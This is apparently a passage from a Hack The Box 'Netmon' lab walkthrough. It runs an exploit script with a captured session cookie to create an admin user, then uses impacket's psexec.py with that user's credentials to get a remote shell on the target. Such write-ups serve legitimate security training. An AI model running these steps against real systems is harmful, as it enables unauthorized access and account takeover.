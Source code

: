 ```text
bash exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.2092334210.1582875922; _gid=GA1.4.597734317.1582875922; OCTOPUS1813713946=ezI0OTUwM0JELUYxMzYtNDE4RS05QTU5LUIyQUI2OUU0RjZDNn0%3D; _gat=1"
```

It runs successfully and creates the user ‘_pentest_’ with the password ‘_P3nT3st!_’ on the system.

![](../images/max/1118/1*A-tfKJCzWay2lFvIl8b0tw.png)

Let’s use psexec to access that user’s account.

```text
root@kali:~/Desktop/htb/netmon# locate psexec.py
/root/Desktop/tools/impacket/examples/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/set/src/fasttrack/psexec.py
```

Run the following command.

```text
python3 /usr/share/doc/python3-impacket/examples/psexec.py pentest:'P3nT3st!'@10.10.10.152
```

We’re in!

![](../images/max/791/1*25aM214iN2FhjE_uLylRVQ.png)